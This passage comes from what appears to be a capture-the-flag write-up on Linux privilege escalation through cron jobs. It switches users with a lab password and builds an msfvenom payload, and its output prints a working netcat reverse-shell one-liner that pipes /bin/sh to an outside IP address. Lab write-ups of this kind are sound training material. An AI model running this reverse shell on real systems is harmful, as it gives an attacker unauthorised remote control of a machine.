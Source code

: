     # # = ID
    # m = Minute
    # h = Hour
    # dom = Day of the month
    # mon = Month
    # dow = Day of the week
    # user = What user the command will run as
    # command = What command should be run
    ```

## First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"
```bash
user8@polobox:/home/user3$ su user4
Password: 
Welcome to Linux Lite 4.4 user4
 
Monday 11 January 2021, 01:06:55
Memory Usage: 336/1991MB (16.88%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user4@polobox:/home/user3$
```

#### Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 
```bash
$ msfvenom 
```

#### What is the flag to specify a payload in msfvenom?
```bash
$ msfvenom -p
```

#### Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"
```bash
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.11.25.205 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 90 bytes
mkfifo /tmp/uvyy; nc 10.11.25.205 8888 0</tmp/uvyy | /bin/sh >/tmp/uvyy 2>&1; rm /tmp/uvyy
```
